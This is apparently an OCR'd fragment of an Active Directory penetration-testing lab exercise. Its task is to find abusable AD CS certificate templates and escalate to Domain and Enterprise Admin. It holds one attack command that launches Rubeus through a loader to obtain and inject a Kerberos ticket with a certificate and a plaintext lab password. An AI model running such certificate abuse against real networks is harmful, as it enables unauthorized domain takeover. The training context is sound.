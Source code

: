 
Task 
• Check if AD CS is used by the target forest and find any vulnerable/abusable templates. 
• Abuse any such template(s) to escalate to Domain Admin and Enterprise Admin.


```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:pawadmin /certificate:C:\AD\Tools\pawadmin.pfx /password:SecretPass@123 /nowrap /ptt
```
